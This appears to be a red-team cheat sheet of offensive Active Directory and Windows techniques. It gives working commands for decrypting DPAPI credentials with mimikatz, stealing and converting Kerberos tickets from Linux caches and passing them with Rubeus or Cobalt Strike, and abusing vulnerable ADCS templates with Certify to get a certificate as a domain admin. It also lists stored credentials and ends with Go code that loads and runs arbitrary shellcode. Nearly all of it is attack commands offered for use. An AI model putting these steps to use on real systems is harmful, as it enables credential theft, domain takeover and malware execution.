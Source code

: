 ```
dpapi::cred /in:C:\Users\<user>\AppData\Local\Microsoft\Credentials\<base32-blob-id> /masterkey:<master-key>
```
### Extrating TGTs from Linux Credential Cache
1. User TGTs reside in the `/tmp` folder - locate any file starting with **krb5cc**...
2. Use impacker to convert ccache tikcets to from **ccache** to **kirbi** format
```bash
./ticketConverter.py admin.ccache admin.kirbi
```
3. Use `Rubeus.exe ptt` or Cobalt Strike's `make_token` to load the ticket into a session
### Abusing ADCS with Certify
```powershell
# find CAs
Certify.exe cas /domain:domain.local
# Find all Microsoft enabled certificate templates
Certify.exe find /domain:domain.local
# Find all vulnerable certificate templates as low-priv user
Certify.exe find /vulnerable /domain:domain.local
# Find all vulnerable certificate templates using all groups the current user is a member of
Certify.exe find /vulnerable /domain:domain.local /currentuser
# Find all certificate templates and display their permissions
Certify.exe find /showAllPermissions /quiet
# Request certificate from CA using current user context
Certify.exe request /ca:SERVER-1\ca-1 /template:vulnTempl
# Request certificate from CA using the machines context
Certify.exe request /ca:SERVER-1\ca-1 /machine /template:vulnTempl
# Request certificate for another domain user
Certify.exe request /ca:SERVER-1\ca-1 /template:vulnTempl /altname:domain.admin
# Download a requested certificate
Certify.exe download /ca:SERVER\ca-name /id:X
```
### Convert ADCS PEM to PFX
```console
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
### Extract Key Manager Stored Credentials
```
rundll32 keymgr.dll,KRShowKeyMgr
cmdkey /list
```
### Execute Shellcode with SysCall Go
```go
func Exec(sc []byte) {
	addr, err := windows.VirtualAlloc(uintptr(0), uintptr(len(sc)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
	if err != nil {
		panic(err.Error())
	}
	ntdll := windows.NewLazySystemDLL("ntdll.dll")
	RtlMoveMemory := ntdll.NewProc("RtlMoveMemory")
	RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sc[0])), uintptr(len(sc)))
	// Change protections to RX
	var oldProtect uint32
	err = windows.VirtualProtect(addr, uintptr(len(sc)), windows.PAGE_EXECUTE_READ, &oldProtect)
	if err != nil {
		panic(err.Error())
	}
	syscall.Syscall(addr, 0, 0, 0, 0)
}
```